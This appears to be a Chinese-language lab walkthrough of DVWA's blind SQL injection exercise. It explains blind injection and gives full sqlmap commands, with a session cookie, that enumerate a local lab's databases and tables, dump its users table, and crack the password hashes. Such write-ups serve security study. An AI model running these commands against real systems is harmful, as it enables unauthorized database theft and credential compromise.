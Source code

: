 ## SQL Injection (Blind)

當攻擊者執行SQL注入攻擊時，Server會response來自資料庫錯誤訊息，報告SQL語法不正確，SQL盲注入是指攻擊者進行攻擊時得不到有用報錯訊息，而是開發人員指定的通用介面。
但還是有辦法讓攻擊手透過一系列真假問題來竊取數據

解法：
使用 Sqlmap 攻擊

https://feifei.tw/security-tool-sqlmap/

使用SQLmap的基本步驟如下：

a. 識別目標URL
b. 分析目標網站的漏洞和資料庫結構
c. 使用不同的技術和參數進行注入測試
d. 通過dumping和爆破等方式獲取目標資料庫中的資料
e. 利用out-of-band連接等方式進一步擴大攻擊面
f. 創建報告並整理測試結果。

### Medium Level / Low Level 打法一樣

攔截

![alt text](image-3.png)

POST 打法

```
    ./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  --dbs
```


![alt text](image-2.png)
兩個DB    

```
./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  -D dvwa --tables --batch --threads 5
```
thread : 加快處理
batch : 掃描過程不要求使用者輸入
打出兩個資料表

![alt text](image-4.png)


```
    ./sqlmap.py -u "http://10.0.2.15/dvwa/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=k1p4nef9t437n12dlf1ml2cspa" --data="id=1&Submit=Submit" -p id  -D dvwa -T users --batch --threads 5 --dump

```

--dump : 顯示資料表內容

打出密碼(md5順便解密)

![alt text](image-5.png)

SQLMap指令表：

https://feifei.tw/security-tool-sqlmap/